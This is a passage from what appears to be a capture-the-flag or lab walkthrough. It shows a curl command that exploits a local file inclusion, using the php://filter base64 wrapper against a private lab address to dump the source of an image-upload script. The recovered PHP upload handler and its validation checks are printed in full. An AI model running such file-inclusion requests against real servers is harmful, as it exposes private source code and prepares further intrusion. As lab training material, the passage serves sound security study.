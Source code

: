 ```console
```

The upload.php file verifies the image extension through a whitelist, checks the file type, makes sure the "/" isn't entered trying to add another file type, uses md5 to encrypt the name of the image and attach the extension with which the script was uploaded.

```console
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=upload" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee upload.php
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
        <body>
                <form action='' method='post' enctype='multipart/form-data'>
                        <input type='file' name='file' id='file' />
                        <input type='submit' name='submit' value='Upload'/>
                </form>
        </body>
</html>
<?php
if(isset($_POST['submit'])) {
        if ($_FILES['file']['error'] <= 0) {
                $filename  = $_FILES['file']['name'];
                $filetype  = $_FILES['file']['type'];
                $uploaddir = 'upload/';
                $file_ext  = strrchr($filename, '.');
                $imageinfo = getimagesize($_FILES['file']['tmp_name']);
                $whitelist = array(".jpg",".jpeg",".gif",".png");

                if (!(in_array($file_ext, $whitelist))) {
                        die('Not allowed extension, please upload images only.');
                }

                if(strpos($filetype,'image') === false) {
                        die('Error 001');
                }

                if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
                        die('Error 002');
                }

                if(substr_count($filetype, '/')>1){
                        die('Error 003');
                }

                $uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

                if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
                        echo "<img src=\"".$uploadfile."\"><br />";
                } else {
                        die('Error 4');
                }
        }
}

?>
```

